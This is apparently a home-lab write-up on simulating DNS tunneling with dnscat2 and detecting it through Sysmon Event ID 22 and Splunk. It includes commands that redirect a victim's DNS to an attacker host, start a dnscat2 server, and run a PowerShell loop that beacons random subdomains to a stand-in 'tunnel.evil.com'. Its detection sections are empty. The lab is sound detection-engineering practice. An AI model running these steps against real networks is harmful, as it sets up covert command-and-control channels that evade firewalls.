





# 03 - DNS Tunneling Detection

## Overview

This documents a simulated DNS tunneling attack using dnscat2 to establish a covert C2 channel over DNS. Kali Linux acted as both the attacker and 
authoritative DNS server, with the Windows 10 victim redirected to use Kali as its DNS resolver. DNS query telemetry was captured using Sysmon Event ID 22 
and forwarded to Splunk for detection engineering.

---
<br>

## Context

**To understand the the context and setup of this lab, it's essential to understand how C2 attacks occur, and moreover, how DNS architecture allows for this.** When a root DNS server receives a query, it points that query towards a top level down (TLD) DNS server based on the extension of the url (most popular is Verisign for .com URLs). Then the TLD server points the request to an authoritative server based on the actual URL domain - popular ones are CloudFlare, Google Cloud DNS, Akamai, etc. 

These authoritative servers are where the URL is actually resolved to an IP address, and once a query goes through root and TLD servers to the auth server, it is typically cached in a network's recursive DNS resolver - meaning it will then remember the auth server instead of sending the query through the root and TLD servers every time. **Knowing that the auth DNS is the one being connected to every query, if these servers were manipulated or hosted with malicious intent, it could lead to a significant attack vector to connected networks as DNS (port 53) is rarely blocked by firewalls.**

Say a malicious actor goes onto GoDaddy.com, buys a domain, and registers a self-hosted authoritative DNS server, that would be all it takes to set up a C2 beacon. **Then all they would need to do is gain internal access to a network and a way to send an outgoing external DNS request to their C2 beacon, and boom - the "channel" is initiated.** Since DNS is almost never blocked in networks (would block pretty much all internet capabilities), this can go unnoticed for extended periods while data is getting exfiltrated/transferred through the channel (dnscat used for encoding exfiltrated data into "subdomains"). 

This lab simulates and represents exactly that situation - a compromised machine (Windows 10 machine) making C2 connections to a malicious authorititive DNS server (Kali Linux machine). We will analyze these DNS queries and connections with Sysmon and Splunk to answer the question: **If a machine on my network was already compromised and beaconing out via DNS tunneling, what would that look like in my logs and how would I catch it?**

---
<br>

## Lab Environment
| Role | OS | IP |
|------|----|----|
| Attacker / DNS Server | Kali Linux | 192.168.10.250 |
| Victim | Windows 10 | 192.168.10.5 |
| SIEM | Ubuntu 22.04 (Splunk) | 192.168.10.10 |

Tools Used: dnscat2, Sysmon, Splunk Enterprise, Splunk Universal Forwarder, PowerShell

---
<br>

## Lab Environment Setup

### 1. Verify Sysmon DNS Logging
Confirmed Sysmon was running and Event ID 22 (DNS queries) was active:
```powershell
Get-Service sysmon64
sysmon64 -s
```
Verified DnsQuery logging enabled with ruledefault="exclude" - all DNS 
queries being captured by default.



### 2. Redirect Windows DNS to Kali
Redirected Windows 10 DNS resolver to Kali so all DNS queries route 
through the attacker machine. Standard DNS change via GUI reverted due to 
domain policy, so applied via PowerShell:
```powershell
$adapter = Get-NetAdapter | Where-Object {$_.Status -eq "Up"}
Set-DnsClientServerAddress -InterfaceIndex $adapter.InterfaceIndex `
-ServerAddresses "192.168.10.250"
```
Verified with nslookup - Server: 192.168.10.250 confirmed.



### 3. Start dnscat2 Server on Kali
Installed and started dnscat2 on Kali listening on port 53:
```bash
cd ~/dnscat2/server
sudo ruby dnscat2.rb --dns "host=0.0.0.0,port=53" --no-cache
```
Server listening and ready to receive tunneled DNS queries.



---
<br>

## Attack Steps

### Note on dnscat2 Client
The lab originally intended to use the dnscat2 Windows client to establish a full C2 tunnel. The dnscat2 server was successfully configured on Kali, but ran into errors cofiguring dns client on windows. I tried downloading straight to windows, but the file was linx-compiled binary so windows dind't know what to do with it. So I tried cross-compiling the Windows client from source using mingw-w64 but that produced compilation errors due to type conflicts and missing headers in the dnscat2 codebase:

./libs/select_group.c: error: passing argument 4 of 'ReadFile' from incompatible pointer type
./tunnel_drivers/driver_dns.c: error: conflicting types for 'driver_dns_destroy'

Instead of spending time resolving upstream source code issues unrelated to detection engineering, I used a PowerShell script to replicate the exact traffic pattern dnscat2 would generate - high volume DNS queries with high entropy random subdomains to a single parent domain. From a Sysmon/Splunk perspective the telemetry comes through exactly the same, as the detection targets the behavioral pattern of the traffic rather than the specific tool generating it.

### 1. Generate DNS Tunneling Traffic
With Windows 10 DNS redirected to Kali, ran a PowerShell script to simulate dnscat2 C2 traffic - generating high volume, high entropy subdomain queries to a simulated malicious domain:

```powershell
$domain = "tunnel.evil.com"
$chars = 'abcdefghijklmnopqrstuvwxyz0123456789'
while($true) {
    $random = -join ((1..32) | ForEach-Object { $chars[(Get-Random -Maximum $chars.Length)] })
    $query = "$random.$domain"
    try { [System.Net.Dns]::GetHostAddresses($query) } catch {}
    Start-Sleep -Milliseconds 500
}
```

Script generated 32-character random alphanumeric subdomains at 500ms intervals — mimicking real dnscat2 encoded payload traffic. Sysmon Event ID 22 captured every query in real time.




---
<br>

## Detection

---
<br>

## MITRE ATT&CK Mapping
[in progress]

---
<br>

## Key IOCs

---
<br>

## Detection Summary
